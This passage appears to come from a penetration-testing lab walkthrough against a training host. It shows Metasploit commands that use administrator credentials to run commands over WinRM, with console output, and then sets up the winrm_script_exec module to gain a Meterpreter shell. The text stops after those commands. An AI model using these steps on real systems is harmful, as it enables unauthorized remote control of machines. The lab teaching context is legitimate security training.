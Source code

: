 
### **Step 4: Test Command Execution**

**What We're Doing:** Making sure we can run commands on the target system

#### **Commands Used:**
```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit
```

#### **What Happened:**
```bash
msf6 auxiliary(scanner/winrm/winrm_cmd) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 auxiliary(scanner/winrm/winrm_cmd) > set USERNAME administrator
USERNAME => administrator
msf6 auxiliary(scanner/winrm/winrm_cmd) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf6 auxiliary(scanner/winrm/winrm_cmd) > set CMD whoami
CMD => whoami
msf6 auxiliary(scanner/winrm/winrm_cmd) > exploit

server\administrator
[+] Results saved to /root/.msf4/loot/20240710200205_default_10.0.28.252_winrm.cmd_result_681320.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### **🎯 Command Results:**
- **Output:** server\administrator
- **Meaning:** We are logged in as the administrator user
- **System Name:** server (the target computer's name)
- **File Saved:** Results automatically saved for documentation

#### **What This Proves:**
We have administrative access to the target system and can execute commands remotely.

---

### **Step 5: Get Full System Control (Meterpreter Shell)**

**What We're Doing:** Getting an interactive shell for complete system control

#### **Commands Used:**
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

